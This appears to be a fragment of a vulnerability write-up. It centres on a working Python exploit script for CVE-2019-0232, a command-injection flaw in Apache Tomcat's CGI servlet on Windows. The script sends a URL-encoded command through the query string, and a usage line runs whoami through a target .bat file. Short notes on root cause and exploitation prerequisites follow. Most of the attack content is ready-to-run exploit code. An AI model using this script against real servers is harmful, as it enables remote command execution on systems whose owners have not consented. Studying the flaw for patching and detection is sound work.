 #### Python Exploit Script
```python
#!/usr/bin/env python3

import requests
import urllib.parse
import argparse

def exploit_cve_2019_0232(target_url, command):
    """
    CVE-2019-0232 Tomcat CGI Command Injection Exploit
    """
    # URL encode the command
    encoded_cmd = urllib.parse.quote(command, safe='')
    
    # Construct exploit URL
    exploit_url = f"{target_url}?&{encoded_cmd}"
    
    try:
        response = requests.get(exploit_url, timeout=10)
        
        if response.status_code == 200:
            print(f"[+] Command executed successfully:")
            print(response.text)
        else:
            print(f"[-] Exploit failed with status: {response.status_code}")
            
    except requests.exceptions.RequestException as e:
        print(f"[-] Request failed: {e}")

# Usage example:
# python3 cve_2019_0232.py -u http://target:8080/cgi/cmd.bat -c "c:\windows\system32\whoami.exe"
```

### Technical Analysis

#### Vulnerability Root Cause
```bash
# CVE-2019-0232 Technical Details:
# 1. Windows JRE argument parsing flaw
# 2. CGI servlet enableCmdLineArguments=true
# 3. Query parameters passed as command arguments
# 4. Special character filter bypass via URL encoding
# 5. Command separator (&) enables injection
```

#### Exploitation Requirements
```bash
# Prerequisites for successful exploitation:
# ✓ Windows operating system
# ✓ Tomcat version 9.0.0.M1 to 9.0.17 (or equivalent 8.5.x/7.0.x)
# ✓ CGI servlet enabled with enableCmdLineArguments=true
# ✓ Accessible .bat files in /cgi/ directory
# ✓ Network connectivity to target port (8080)
```
